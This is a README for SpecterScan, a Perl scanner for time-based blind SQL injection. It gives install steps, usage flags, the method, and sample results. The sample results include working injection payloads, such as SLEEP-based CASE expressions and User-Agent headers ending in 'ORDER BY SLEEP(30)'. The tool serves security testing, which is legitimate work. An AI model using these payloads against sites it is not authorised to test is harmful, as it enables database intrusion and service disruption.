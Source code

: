 # 🌟 SpecterScan  🕵️‍♂️🔍

![Perl Icon](https://img.shields.io/badge/Perl-%23F5DEB3?style=for-the-badge&logo=perl&logoColor=000000)![Security Icon](https://img.shields.io/badge/Security-%23FF4F4F?style=for-the-badge&logo=security&logoColor=ffffff) ![Terminal Icon](https://img.shields.io/badge/Terminal-%231d1f21?style=for-the-badge&logo=gnome-terminal&logoColor=00bfae) 

## 🎯 **Overview**

```
SpecterScan is a powerful Perl-based SQL Injection vulnerability scanner.
It helps ensure the security of your web applications by testing URLs with various payloads.
This tool identifies potential SQL injection vulnerabilities using time-based techniques to reveal delays in response times.
```

## 🚀 **Features**

```
- 🔍 Single URL Scanning: Analyze individual URLs for SQL injection vulnerabilities.
- 📋 Multiple URLs Scanning: Efficiently scan a batch of URLs from a file.
- 📜 Parameter-based Testing: Detect SQL injection vulnerabilities through URL parameters.
- 🏷️ Header-based Testing: Assess vulnerabilities in HTTP headers.
- ⏳ Time-based Scanning: Utilize time-based payloads to identify vulnerabilities by measuring delays in response times.
- 📈 Comprehensive Output: Detailed results with response times and vulnerability statuses, including specific payloads that triggered issues.
```

## 🛠️ **Installation**

```
1. Ensure Perl is Installed: Download Perl from https://www.perl.org/get.html if not already installed. 🐍

2. Install Dependencies: Use CPAN to install the necessary Perl modules:
   $ cpan install LWP::UserAgent
   $ cpan install HTTP::Request
   $ cpan install Getopt::Long
   $ cpan install Time::HiRes

3. Clone the Repository:
   $ git clone https://github.com/LunarLumos/SpecterScan.git
   $ cd SpecterScan

4. Execute the Script:
   $ perl specterscan.pl
```

## 🎨 **Usage**

```
SpecterScan provides several command-line options:

- -u <url>: Test a single URL. 🌐
- -l <list_file>: Test a list of URLs from a file. 📄
- -h: Test HTTP headers. 🏷️
- -p: Test URL parameters. 📜
```

### **Examples** 💡

#### **1. Single URL Test**

```
Test a URL for both parameter and header-based SQL injection vulnerabilities:
$ perl specterscan.pl -u "http://example.com/vulnerable_page.php?id=1" -p -h
```

#### **2. Multiple URLs Test**

```
Scan a list of URLs from a file:
$ perl specterscan.pl -l "urls.txt" -p
```

#### **3. Parameter-based Testing Only**

```
Test a URL focusing solely on parameters:
$ perl specterscan.pl -u "http://example.com/vulnerable_page.php?id=1" -p
```

#### **4. Header-based Testing Only**

```
Test a URL focusing solely on headers:
$ perl specterscan.pl -u "http://example.com/vulnerable_page.php" -h
```

## 🔍 **Methodology**

```
1. Initialization:
   - Load required modules and define ANSI color codes for enhanced output formatting. 🌈
   - Initialize the user-agent for sending HTTP requests. 🕵️‍♂️

2. Payloads:
   - Use a collection of SQL injection payloads designed to induce delays if vulnerabilities exist. 💥

3. Processing URLs:
   - Single URL: Evaluate the URL against each payload and output results. 🧪
   - List of URLs: Read and test each URL from a file, then display results. 📂

4. Testing:
   - Parameter-based Testing: Append payloads to URL parameters and measure response time. ⏱️
   - Header-based Testing: Add payloads to HTTP headers and check response time. 🏷️
   - Time-based Scanning: Measure delays in response times to detect SQL injection vulnerabilities, particularly those exploiting time-based techniques. ⏳

5. Results:
   - Compare response times with and without payloads. A significant increase may indicate a vulnerability. ⚠️
   - Print results with color-coded outputs for clarity. 🌟
```

## 📝 **Example Results**

### **1. Single URL Test - Parameter-based**

```
[ URL 1 ]: http://example.com/vulnerable_page.php?id=1
[ Mood ]: Parameter
[ Normal Response Time]: 0.12 sec
[ Payload Response Time]: 30.15 sec
[ Comment ]: Vulnerable in Parameter-based SQL
[ Payload ]: (CASE WHEN (2375=2375) THEN SLEEP(30) ELSE 2375 END)
```

### **2. Single URL Test - Header-based**

```
[ URL 1 ]: http://example.com/vulnerable_page.php
[ Mood ]: Header
[ Normal Response Time]: 0.10 sec
[ Payload Response Time]: 30.20 sec
[ Comment ]: Vulnerable in Header-based SQL
[ Header ]: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/37.0.2062.94 Chrome/37.0.2062.94 Safari/537.36 ORDER BY SLEEP(30)
```

### **3. Multiple URLs Test**

```
[ URL 1 ]: http://example.com/vulnerable_page1.php?id=1
[ Mood ]: Parameter
[ Normal Response Time]: 0.14 sec
[ Payload Response Time]: 30.25 sec
[ Comment ]: Vulnerable in Parameter-based SQL
[ Payload ]: + SLEEP(30) + '

[ URL 2 ]: http://example.com/vulnerable_page2.php
[ Mood ]: Header
[ Normal Response Time]: 0.09 sec
[ Payload Response Time]: 30.18 sec
[ Comment ]: Vulnerable in Header-based SQL
[ Header ]: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3 ORDER BY SLEEP(30)
```

## 🤝 **Contributing**

```
We welcome contributions! Please fork the repository, create a new branch, and submit a pull request with your enhancements. 🚀
```

## 📜 **License**

```
This project is licensed under the MIT License - see the LICENSE file for details. 📄
```
